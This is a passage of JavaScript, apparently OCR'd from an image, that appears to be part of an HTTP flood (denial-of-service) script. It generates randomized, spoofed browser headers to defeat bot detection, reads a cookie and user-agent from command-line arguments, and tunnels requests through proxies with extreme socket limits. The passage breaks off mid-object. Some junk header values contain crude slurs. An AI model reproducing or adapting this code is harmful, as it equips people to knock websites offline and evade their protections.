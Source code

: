            nodeii = getRandomInt(115,124)
           cache = ["no-cache", "no-store", "no-transform", "only-if-cached", "max-age=0", "must-revalidate", "public", "private", "proxy-revalidate", "s-maxage=86400"];
           const timestamp = Date.now();
const timestampString = timestamp.toString().substring(0, 10);
function randstrr(length) {
    const characters = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789._-";
    let result = "";
    const charactersLength = characters.length;
    for (let i = 0; i < length; i++) {
        result += characters.charAt(Math.floor(Math.random() * charactersLength));
    }
    return result;
}
           const headers = {
    ":method": "GET",
    ":authority": parsed.host,
    ":scheme": "https",
    ":path": parsed.path,
    ...shuffleObject({
    "sec-ch-ua": `\\\"Not)B;Brand\\\";v=\\\"${getRandomInt(100, 99999)}\\\", \\\"Google Chrome\\\";v=\\\"${nodeii}\\\", \\\"Chromium\\\";v=\\\"${nodeii}\\"`,
    "Pragma" : "no-cache",
    ...(Math.random() < 0.4 ? { "cache-control": cache[Math.floor(Math.random() * cache.length)]} : {}),
    ...(Math.random() < 0.8 ? { "sec-ch-ua-mobile": "?0"} : {}),
    "sec-fetch-site": Math.random() < 0.2 ? "none;none" : "none",
    "sec-fetch-mode": Math.random() < 0.2 ? "navigate;navigation" : "navigate",
    "sec-fetch-user": Math.random() < 0.2 ? "?1;?1" : "?1",
    ...(Math.random() < 0.5 && { "sec-fetch-dest": "document" }),
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7",
     ...(Math.random() < 0.3 ?{"polion-sec-cf": "GAY-"+generateRandomString(1, 2)}:{}),
    ...(Math.random() < 0.6 ?{[generateRandomString(1, 2)+"-night-thef-"+generateRandomString(1, 2)]: "zffs-"+generateRandomString(1, 2)}:{}),
    ...(Math.random() < 0.6 ?{["accept-client-"+generateRandomString(1, 2)]: "router-"+generateRandomString(1, 2)}:{}),
    ...(Math.random() < 0.3 ?{"Crisx-Sec-HOPEFULL": "zeus-bff"}:{}),
    "accept-encoding": Math.random() < 0.5 ? "gzip, deflate, br, zstd" : "gzip, deflate, br, cdnfly",
    "sec-ch-ua-platform": "Fake-Windows" + "="+ generateRandomString(1, 4)+ "?"+ generateRandomString(5, 30),
     }),
    "user-agent": process.argv[8],
    "cookie": process.argv[7],
    ...(Math.random() < 0.5 ? { "upgrade-insecure-requests": "1" } : {}),
    "accept-language": "ru,en-US;q=0.9,en;q=0.8"
}

        

	const agent = new http.Agent({
		host: proxy[0]
		, port: proxy[1]
		, keepAlive: true
		, keepAliveMsecs: 500000000
		, maxSockets: 50000
		, maxTotalSockets: 100000
	, });
	const Optionsreq = {
		agent: agent
		, method: 'CONNECT'
		, path: parsed.host + ':443'
		, timeout: 5000
		, headers: {
			'Host': parsed.host